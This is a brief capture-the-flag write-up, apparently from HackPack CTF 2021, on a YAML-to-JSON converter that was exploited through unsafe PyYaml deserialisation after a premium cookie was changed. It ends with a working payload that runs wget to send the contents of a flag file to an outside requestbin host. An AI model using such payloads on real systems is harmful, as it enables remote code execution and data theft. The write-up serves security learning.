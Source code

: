 page offers a simple conversion from .yaml to .json

website also created a cookie premium:false
it is possible to change false to true which show us a message that PyYaml library is being used. It seems that it has some arbitrary code executions vunerabilities. After some checking me and my team found that exploit to send a flag to requestbin

 ![](https://i.ibb.co/hdJ3Kpg/Screenshot-2021-04-17-Yaml-2-Json-Hackpack-CTF-2021.png)

```
{
	!!python/object/apply:os.system ["wget http://requestbin.net/r/1b9a6hxj/?`cat /tmp/flag.txt`"]
}

```
